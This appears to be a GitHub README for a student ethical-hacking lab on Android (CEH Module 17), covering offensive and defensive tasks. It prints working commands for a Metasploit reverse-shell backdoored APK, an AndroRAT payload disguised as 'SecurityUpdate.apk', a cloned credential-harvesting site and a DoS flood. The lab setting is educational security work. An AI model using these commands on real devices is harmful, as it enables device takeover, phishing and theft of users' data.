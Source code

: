 Overview
This repository contains the complete documentation and lab work for Module 17: Hacking Mobile Platforms, part of the CEH v12 program. Our group conducted ethical hacking simulations on Android platforms, exploring both attack vectors and defensive strategies.

Group Information
Group Members:
Muhammad Shaheem (Student ID: 2023507)
Shayan Siddique (Student ID: 2023656)
Zulqamain Umar (Student ID: 2023556)

Course Details:
Course: CY201 - Cyber Security Principles and Concepts
Instructor: Mr. Abdullah Bin Zarshaid
Submission Date: 14 May 2025

Module Objectives
The module covered both offensive and defensive aspects of mobile security:
Offensive Techniques:
  Creating and deploying malicious APKs using tools like msfvenom and AndroRAT
  Exploiting Android devices through ADB using PhoneSploit
  Conducting social engineering attacks with SET
  Performing DoS attacks with LOIC
Defensive Strategies:
  Analyzing APKs for vulnerabilities using SISIK analyzer
  Detecting malware with Malwarebytes
  Monitoring network traffic using Wireshark

Detailed Lab Work
Lab 01: Attack Simulations
  Task 1: Binary Payload with Metasploit
    We created a backdoored APK and established Meterpreter session using these commands:
      msfvenom -p android/meterpreter/reverse_tcp LHOST=192.168.10.3 LPORT=4444 -o Backdoor.apk
      use exploit/multi/handler
      set payload android/meterpreter/reverse_tcp
      set LHOST 192.168.10.3
      set LPORT 4444
      exploit -j -z

  Task 2: Social Engineering with SET
    We cloned a hotel booking site to harvest credentials using:
    setoolkit
      Selected credential harvester attack method
      Configured with IP 10.10.1.13 and cloned http://certifiedhacker.com/Online%20Booking/index.htm

  Task 3: DoS Attack with LOIC
    We performed a TCP flood attack on target 10.0.2.15 port 80 with 100 threads, monitored using Wireshark.

  Task 4: ADB Exploitation with PhoneSploit
    We gained shell access to an Android device using:
      python3 phonesploitpro.py
      Connected to target device IP 10.10.1.14
      Accessed shell and executed commands like ls, cd, and ran apps remotely.

  Task 5: APK Backdoor with AndroRAT
    We created a malicious APK and established remote control:
      python3 androRAT.py --build -i 10.10.1.13 -p 4444 -o SecurityUpdate.apk
      python3 androRAT.py --shell -i 0.0.0.0 -p 4444
      Exfiltrated SMS, MAC address, and device info.

Lab 02: Defense and Analysis
  Task 1: APK Analysis with SISIK
    Analyzed communicationstage.apk revealing:
      Min SDK: API 10 (Android 2.3.3)
      Target SDK: API 17 (Android 4.2)
      Version: 1.0

  Task 2: Malware Detection with Malwarebytes
    Scanned device detecting:  
      LOIC_v1.3.apk as suspicious
      Protection score: 32/100 (Poor)

-> Key Findings and Lessons
  Critical Vulnerabilities Identified:
    Outdated Android OS versions without security patches
    Exposed ADB ports allowing unauthorized access
    Effectiveness of social engineering attacks
    Risks of sideloading APKs from untrusted sources
  Defensive Recommendations:
    Regular OS and security updates
    Disabling "Unknown Sources" for APK installation
    Network monitoring for unusual traffic
    User education about phishing risks
  Ethical Considerations
    All tests were conducted in a controlled lab environment with proper authorization. These techniques should only be used for legitimate security testing     purposes with explicit permission.

->Repository Structure
  The repository contains:
    Complete lab report PDF with detailed methodologies
    Screenshots documenting our processes and results
    Command references for all lab tasks
    This README file summarizing our work
  How to Use This Repository
    Review the full report for comprehensive understanding
    Refer to command references for technical details
    Note all activities must be conducted ethically and legally
    Never execute these techniques without proper authorization
